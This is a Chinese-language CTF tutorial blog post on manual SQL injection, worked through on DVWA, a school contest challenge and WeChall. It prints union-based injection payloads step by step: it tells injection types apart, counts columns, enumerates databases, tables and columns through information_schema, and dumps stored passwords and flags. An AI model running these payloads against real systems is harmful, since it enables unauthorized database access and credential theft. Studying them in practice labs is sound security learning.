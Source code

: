 ```yaml
---
title: SQL基础
date: 2020-12-08
description: SQL手工注入的基本步骤，绕过空格、等号
category: 信息安全
tags:
  - CTF
  - Web
  - SQL
---
```

# 判断注入类型  
输入`1' and 1=2 #`，这明显是不成立的，如果回显正常，说明不是字符型注入，不是单引号闭合；如果报错，证明是字符型注入  
同理，输入`1 and 1=2 #`判断是否是数字型注入  
以DVWA的sql(low)为例，输入`1 and 1=2 #`没有报错，证明这不是数字型注入：
![不是数字型注入](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/dvwa.png)
而输入`1' and 1=2 #`报错，是字符型注入
# 爆字段数（显示位）
接下来以校赛题目为例，是字符型注入。原题过滤了空格和等号，这里我们假装没有任何过滤  
用`1' or 1=1 #`可以看到所以的信息，这是因为查询语句变成了查找满足用户名是1或者满足1=1的所有用户。虽然没有用户名为1，但是所有用户名都满足1=1，所以会显示所以用户信息  
## 用order by爆
用`1' or 1=1 order by 5 #`爆显示位。order by 5返回正常，这意味着显示位大于等于5个，一直试到报错为止。这个题加到6就报错了  
order by的意思是按第几个字段排序
## 用union select爆
用`1' union select 1,2,3,4,5 #` 只有个数对了才会回显正常。用这个有一个好处，就是可以看到各字段和显示位之间的对应关系  
  
不得不说，后面又一次忘记了union select的本质了。被迫更新  
  
`union select`会强行在数据库中加入一些数据，然后再执行查询命令。  
  
现在来解释对应关系的问题，以wechall的MySQL II 为例：  
  
  我们输入`woc'union select 1,'xiaobinggan',md5('fanpai') #`和`fanpai`，看到回显如下
  ![wechall](https://raw.githubusercontent.com/Cranberrycookies/cranberrycookies.github.io/master/assets/images/SQL/wechall.png)
  我们输入了3个字段，只显示出了1个（username字段：xiaobinggan），所以我们后续的注入回显就要在二号位进行

# 爆库名
## 用database爆库名
`1' union select 1,database(),3,4,5 #`   
在2号位显示库名，后面的3,4,5用来凑显示位  
这样爆库名只能看到当前的库
![只能看到用户的库](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86%E5%BA%93%E5%90%8D1.png)
## 用information_schema爆库名
```sql
1' union select 1,(select group_concat(schema_name) from information_schema.schemata),3,4,5 #
```
information_schema是元数据库，里面存放了所有数据库的所有信息，比如库名、表名、列、数据类型、访问权限等  
schemata是information_schema中的一个表，里面存放了库名  
group_concat()函数可以把组中的字符串连接成一个字符串，schema_name就是库名，group_concat(schema_name)就是从
information_schema.schemata这个表中搜索schema_name（库名），并且返回为一个字符串
![看到了所有库](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86%E5%BA%93%E5%90%8D2.png)
# 爆表名
```sql
1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = 'cumtctf'),3,4,5 #
```
information_schema.tables中存放了所有表的信息，table_schema是数据表所属的数据库名  
获取了cumtctf这个库中表的表名：
![表名](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86%E8%A1%A8%E5%90%8D.png)
# 爆列名
```sql
1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name = 'ctfers'),3,4,5 #
```
column_name就是列名，table_name表名（这次不用在库里搜索了，和schema没关系了）  
获得列名如下：
![列名](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86%E5%88%97%E5%90%8D.png)
# 爆flag
## 全爆
```sql
1' union select 1,(select group_concat(password) from ctfers),3,4,5 #
```
这个可以看到password里的所有信息，一堆密码和flag
![爆一堆flag](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86flag1.png)
## 一个一个爆
```sql
1' union select 1,(select password from ctfers limit 15,1),3,4,5 #
```
limit作用是从第15个开始（从0开始计数），返回一个（不能返回多个，显示位就一个）  
一个一个试，试到第15个
![一个一个试](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SQL/%E7%88%86flag2.png)

